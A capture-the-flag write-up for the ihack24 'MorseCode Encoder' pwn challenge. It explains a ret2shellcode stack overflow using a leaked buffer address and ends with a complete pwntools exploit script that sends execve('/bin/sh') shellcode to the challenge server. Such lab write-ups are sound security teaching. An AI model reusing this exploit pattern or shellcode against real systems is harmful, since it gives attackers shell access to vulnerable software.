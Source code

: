 ## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. The basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
print(hex(leak))
tar = leak - 0x10
print(hex(tar))

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

print(payload)

sla(b"Enter]: ", payload)

p.interactive()
```
